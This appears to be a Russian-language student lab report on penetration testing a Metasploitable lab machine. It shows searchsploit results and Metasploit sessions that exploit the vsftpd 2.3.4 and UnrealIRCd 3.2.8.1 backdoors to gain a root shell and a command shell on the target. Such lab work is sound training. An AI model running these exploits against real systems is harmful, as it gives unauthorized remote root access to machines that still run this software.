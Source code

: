 Какие уязвимост были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
```
 searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                   | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                      | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
№1 - порт 21 - vsftpd 2.3.4 - Backdoor Command Execution

```
sudo service postgresql start
service postgresql status
sudo msfdb init
sudo msfconsole
db_status
search vsftpd 2.3.4
hosts -a 192.168.6.244
hosts
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.6.244
exploit

whoami
root
hostname
metasploitable
hostname -i
127.0.1.1
exit
[*] 192.168.6.244 - Command shell session 1 closed.
```

№2 - порт 6667 - UnrealIRCd 3.2.8.1 - Backdoor Command Execution

```
search UnrealIRCd
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution

use exploit/unix/irc/unreal_ircd_3281_backdoor
show options
set RHOSTS 192.168.6.244
run
exploit
set target 0
exploit
show payloads
set payload 0
exploit
[*] Command shell session 2 opened (192.168.6.243:33973 -> 192.168.6.244:4444) at 2023-10-13 13:07:48 +0300
```